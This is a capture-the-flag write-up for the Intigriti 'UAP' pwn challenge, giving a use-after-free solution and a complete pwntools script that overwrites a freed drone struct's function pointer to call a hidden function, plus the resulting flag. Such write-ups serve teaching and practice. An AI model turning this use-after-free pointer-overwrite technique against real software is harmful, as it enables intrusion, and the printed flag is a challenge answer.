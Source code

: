https://ctftime.org/event/2446

# UAP (pwn)

I found a UFO! Wait, they call them UAPs now? Whatever, feel free to take take a look 🔎

nc uap.ctf.intigriti.io 1340

## Solution

1) Allocate and free a drone
2) Use after free the drone pointer via `enter_drone_route` such that `drone->start_route` points to `print_drone_manual`
3) Call `print_drone_manual` via `start_drone_route` to get the flag

```python
#!/usr/bin/env python3

from pwn import *

#context.log_level = "debug"
elf = ELF("./drone", checksec=False)
context.binary = elf

#p = elf.process()
#p = elf.debug(gdbscript="b start_drone_route")
p = remote("uap.ctf.intigriti.io", 1340)

def deploy_drone():
    p.sendline(b"1")

def retire_drone():
    p.sendline(b"2")
    p.sendline(b"1")

def start_drone_route():
    p.sendline(b"3")
    p.sendline(b"1")

def enter_drone_route():
    p.sendline(b"4")
    payload = b""
    payload += b"A" * 16
    payload += p64(elf.sym["print_drone_manual"])
    p.sendline(payload)

deploy_drone()
retire_drone()
enter_drone_route()
start_drone_route()

p.readuntil(b"start its route: ")
print(p.readline()[:-2].decode()) # INTIGRITI{un1d3n71f13d_fly1n6_vuln3r4b1l17y}
```

## Flag
`INTIGRITI{un1d3n71f13d_fly1n6_vuln3r4b1l17y}`

smiley 2024/11/16
